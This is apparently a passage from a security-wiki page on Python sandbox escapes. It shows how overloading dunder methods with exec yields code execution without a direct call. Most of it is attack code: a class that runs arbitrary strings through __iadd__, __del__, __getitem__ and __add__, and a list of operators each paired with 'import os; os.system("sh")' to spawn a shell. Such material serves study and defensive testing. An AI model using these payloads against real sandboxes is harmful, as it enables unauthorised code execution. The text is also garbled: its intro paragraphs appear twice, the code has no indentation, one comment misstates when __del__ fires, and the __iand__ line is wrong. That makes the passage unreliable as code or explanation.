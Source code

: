 
If you can **declare a class** and **create an object** of that class you could **write/overwrite different methods** that can be **triggered** **without** **needing to call them directly**.

#### RCE with custom classes

You can modify some **class methods** (_by overwriting existing class methods or creating a new class_) to make them **execute arbitrary code** when **triggered** without calling them directly.

### RCE creating objects and overloading

If you can **declare a class** and **create an object** of that class you could **write/overwrite different methods** that can be **triggered** **without** **needing to call them directly**.

#### RCE with custom classes

You can modify some **class methods** (_by overwriting existing class methods or creating a new class_) to make them **execute arbitrary code** when **triggered** without calling them directly.
```python
# This class has 3 different ways to trigger RCE without directly calling any function
class RCE:
def __init__(self):
self += "print('Hello from __init__ + __iadd__')"
__iadd__ = exec #Triggered when object is created
def __del__(self):
self -= "print('Hello from __del__ + __isub__')"
__isub__ = exec #Triggered when object is created
__getitem__ = exec #Trigerred with obj[<argument>]
__add__ = exec #Triggered with obj + <argument>

# These lines abuse directly the previous class to get RCE
rce = RCE() #Later we will see how to create objects without calling the constructor
rce["print('Hello from __getitem__')"]
rce + "print('Hello from __add__')"
del rce

# These lines will get RCE when the program is over (exit)
sys.modules["pwnd"] = RCE()
exit()

# Other functions to overwrite
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
```